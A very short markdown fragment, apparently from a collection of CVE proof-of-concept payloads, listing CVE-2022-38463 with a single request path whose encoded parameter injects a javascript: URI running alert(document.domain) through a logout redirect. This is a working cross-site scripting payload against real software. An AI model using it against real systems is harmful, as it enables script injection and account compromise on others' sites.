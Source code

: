# 2022

## CVE-2022-38463

```
/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)
```
